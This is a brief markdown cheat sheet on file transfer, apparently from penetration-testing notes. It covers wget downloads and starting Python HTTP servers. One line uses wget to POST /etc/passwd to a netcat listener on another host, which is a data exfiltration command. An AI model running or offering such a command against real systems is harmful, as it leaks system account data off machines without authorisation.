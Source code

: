 # wget

## Download from Site

```bash
wget http://<ip>/file.txt
```

## Set up Netcat Listener to Push File

```bash
wget --post-file=/etc/passwd 192.168.0.1:8081 (netcat port)
```

## Python2

```bash
python -m SimpleHTTPServer 80
```

## Python3

```bash
python3 -m http.server 80
```

